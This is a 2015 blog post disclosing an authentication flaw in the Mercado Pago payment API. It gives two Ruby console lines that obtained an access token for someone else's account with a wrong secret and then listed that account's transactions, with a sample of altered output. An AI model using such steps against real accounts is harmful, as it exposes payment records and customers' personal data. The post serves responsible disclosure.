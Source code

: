 ```yaml
---
layout: post
title: "Mercado Pago Security Hole"
date: 2015-07-14 23:29:00
categories: ["security"]
author: etagwerker
---
```


On April 17th we discovered a security vulnerability in the [Mercado Pago API](https://www.mercadopago.com.ar/developers/en/api-docs/). Before disclosing this information, we contacted [Mercado Libre](http://www.mercadolibre.com/) and sent them a detailed report of the security hole and how to reproduce it.

The vulnerability allowed anyone to get an access token without using the right secret for an account.

You can see how the authentication process works on Mercado Pago over here: [https://www.mercadopago.com.ar/developers/en/api-docs/basics/authentication/](https://www.mercadopago.com.ar/developers/en/api-docs/basics/authentication/)

## How to reproduce the bug

This example uses Ruby 2.1.2 and the [mercadopago](https://rubygems.org/gems/mercadopago) gem.

    2.1.2 :001 > token = MercadoPago::Authentication.access_token("8872", "lalalala")

The first parameter is the client id (an account in Mercado Pago) and the second parameter is the secret (only the account holder should know this)

For client id we used `8872` which doesn't belong to us and for secret we used `lalalala` to show that it wasn't really *the right secret.*

With that information, we were able to acquire the token. With it you can access a lot of information associated with the payments in the account.

For example:

```ruby
2.1.2 :002 > response = MercadoPago::Collection.search(token["access_token"], status: :approved)
```

With this query, you could see all the approved transactions for an account **that didn't belong to you**.

For example:

```ruby
=> {"paging"=>{"total"=>98, "limit"=>30, "offset"=>0},
    "results"=>[
      {"collection"=>{"id"=>753859418, "site_id"=>"MLA",
       "date_created"=>"2014-03-13T16:58:20.000-04:00",
       "date_approved"=>"2014-03-13T17:00:38.000-04:00",
       "last_modified"=>"2014-03-13T17:00:38.000-04:00",
       "money_release_date"=>"2014-03-15T17:00:38.000-04:00",
       "operation_type"=>"regular_payment",
       "collector_id"=>16605960, "sponsor_id"=>nil,
       "payer"=>{
         "nickname"=>"XOMBULABSX",
         "first_name"=>"JON",
         "last_name"=>"SNOW",
         "phone"=>{"area_code"=>"291", "number"=>"123412", "extension"=>nil},
         "email"=>"security@ombulabs.com",
         "id"=>83110350,
         "identification"=>{"type"=>nil, "number"=>nil}},
         "external_reference"=>"1448",
         "merchant_order_id"=>11567450,
         "reason"=>"Premium package", "currency_id"=>"ARS",
         "transaction_amount"=>81, "total_paid_amount"=>81,
         "shipping_cost"=>0,
         "account_money_amount"=>0,
         "mercadopago_fee"=>4.85,
         "net_received_amount"=>76.15,
         "marketplace_fee"=>nil,
         "coupon_id"=>nil,
         "coupon_amount"=>nil,
         "coupon_fee"=>nil,
         "finance_fee"=>0,
         "status"=>"approved",
         "status_detail"=>"accredited",
         "status_code"=>"00",
         "released"=>"yes",
         "payment_type"=>"credit_card",
         "installments"=>1,
         "installment_amount"=>nil,
         "deferred_period"=>nil,
         "cardholder"=>{"name"=>"JON SNOW", "identification"=>{"type"=>"DNI", "number"=>"26000000"}},
         "statement_descriptor"=>"WWW.MERCADOPAGO.COM",
         "transaction_order_id"=>nil, "marketplace"=>"NONE", "tags"=>[],
         "notification_url"=>nil}},
      {"collection"=>
        {"id"=>756415807,
        "site_id"=>"MLA",
        "date_created"=>"2014-03-20T15:42:35.000-04:00",
        "date_approved"=>"2014-03-20T15:42:35.000-04:00",
        "last_modified"=>"2014-03-20T15:42:35.000-04:00",
        "money_release_date"=>"2014-03-22T15:42:35.000-04:00",
        "operation_type"=>"regular_payment",
        "collector_id"=>16605960,
        "sponsor_id"=>nil,
        "payer"=>{
          "nickname"=>"YOURNICKNAME",
          "first_name"=>"Matias",
          "last_name"=>"OMBU",
          "phone"=>{"area_code"=>"291", "number"=>"4000000", "extension"=>nil},
          "email"=>"hola@ombulabs.com",
          "id"=>18878708,
          "identification"=>{"type"=>nil, "number"=>nil}},
        "external_reference"=>"1457",
        "merchant_order_id"=>13031193,
        "reason"=>"Premium package",
        "currency_id"=>"ARS",
        "transaction_amount"=>81,
        "total_paid_amount"=>81,
        "shipping_cost"=>0,
        "account_money_amount"=>0,
        "mercadopago_fee"=>4.85,
        "net_received_amount"=>76.15,
        "marketplace_fee"=>nil,
        "coupon_id"=>nil,
        "coupon_amount"=>nil,
        "coupon_fee"=>nil, "finance_fee"=>0,
        "status"=>"approved",
        "status_detail"=>"accredited",
        "status_code"=>"00",
        "released"=>"yes",
        "payment_type"=>"credit_card",
        "installments"=>1,
        "installment_amount"=>nil,
        "deferred_period"=>nil,
        "cardholder"=>
          {"name"=>nil,
           "identification"=>{"type"=>nil, "number"=>nil}},
        "statement_descriptor"=>"WWW.MERCADOPAGO.COM",
        "transaction_order_id"=>nil,
        "marketplace"=>"NONE",
        "tags"=>[],
        "notification_url"=>nil}},
        ...
      }
```

*The sensitive information in this code snippet has been intentionally changed*

So, during the time that this vulnerability was live (at least 7 hours) an attacker could have used it to:

* Find information about all the payments that your account had received since you started using the service

* Find information about your clients, their DNI, name, phone number

## How we discovered this bug

At [OmbuShop](http://www.ombushop.com), our integration tests use the Mercado Pago sandbox to check that the amount that a client has to pay is correct. I know that this isn't ideal (or is it?) but it's as real as it gets for our integration tests.

One of our tests checked that you couldn't get collections information with the wrong user credentials. When the test started failing in our continuous tests, we started digging around and found this security hole.

## What worries me

It's hard to understand how such a big payment processor never published information about this security hole. I would expect them to know if some information was accessed by people who didn't have access to it. They could check their access logs and see who accessed their API using a secret that wasn't the right one.

Mercado Pago, a product of Mercado Libre ([$MELI](http://www.nasdaq.com/symbol/meli)) which is in NASDAQ, doesn't even have public versioning information of their API nor a continuous integration suite that would catch such an obvious vulnerability.

Maybe I am just used to the security reports published by Github about their vulnerabilities. Maybe Github is way more serious than Mercado Pago about privacy and online security.

I think that Mercado Pago needs to step up their game and be more transparent about their platform and user privacy.

A good place to start would be a better way to receive security vulnerability reports and disclosing information about their security problems.

Until today, they haven't disclosed any information about this security hole and it's very hard to find a way to report a security issue to them.
